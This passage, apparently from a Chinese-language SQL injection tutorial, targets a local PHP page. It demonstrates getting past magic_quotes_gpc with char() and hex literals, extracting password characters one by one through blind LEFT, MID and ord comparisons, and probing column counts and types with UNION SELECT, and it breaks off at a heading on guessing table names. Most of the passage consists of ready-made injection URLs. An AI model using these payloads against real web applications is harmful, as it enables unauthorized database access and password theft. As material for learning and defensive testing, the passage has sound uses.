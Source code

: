 select * from user where username=char(97,110,103,101,108)
char(...)相当于angel,十进制

select * from  user where username=0x616E67656C
0x616E67656C相当于angel，十六进制

```

构造的变量不被引号所包含才有意义，不然，不管怎么构造，只是字符串，发挥不了作用。

```
http://localhost/injection/user.php?id=1 and password='password'
```
由于magic_quotes_gpc打开的关系，这是有问题的，引号会变成/',使用char()函数:
```
http://localhost/injection/user.php?id=1 and password=char(109,121,112,97,115,115)
```

正常返回，说明char()是可行的，把char()用进LEFT()函数里面
```
http://localhost/injection/user.php?id=1 and LEFT(password,1)=char(109)
```
正常返回，说明id为1的用户，password字段第一位是char(109),这样依次猜下去

这样操作虽然可以猜到密码，但这样会影响效率，既然是整型，就可以用比较运算符来比较:

```
http://localhost/injection/user.php?id=1 and LEFT(password,1)>char(100)

http://localhost/injection/user.php?id=1 and LEFT(password,3)>char(100,120,110)

```

当然也可以使用SUBSTRING(str,pos,len)和MID(str,pos,len)函数，从字符串str的pos位置起返回len个字符的子串。

```
http://localhost/user.php?id=1 and mid(password,3,1)=char(112)
http://localhost/user.php?id=1 and mid(password,4,1)=char(97)
```

如果觉得麻烦，还有更简单的方法，就是利用ord()函数，该函数返回的是整型类型的数据，可以用比较运算符进行比较，当然得出的结果也就快多了，也就是这样提交:

```
http://localhost/user.php?id=1 and ord(mid(password,3,1))>111
http://localhost/user.php?id=1 and ord(mid(password,3,1))<113
http://localhost/user.php?id=1 and ord(mid(password,3,1))=112

```

3.快速确定未知数据结构的字段和类型

如果不清楚数据结构，很难用UNION联合查询，可以这样提交来快速确定有多少个字段:
```
http://localhost/user.php?id=-1 union select 1,1,1,1
```

有多少个"1"就表示有多个字段，如果字段数不同，就肯定会出错，如果字段数猜对了，就会返回正确的页面，字段数就出来了，就开始判断数据类型，随便用几个字母代替上面的1，但是由于magic_quotes_gpc打开，不能用引号，使用char()函数，char(97)表示字母"a":

```
http://localhost/user.php?id=1 union select char(97),char(97),char(97)
```

如果是字符串，就会正常显示"a",如果不是字符串或文本，也就是说是整型或者布尔型，就是返回"0"。

判断最主要靠的还是经验。


4.猜数据库表名
```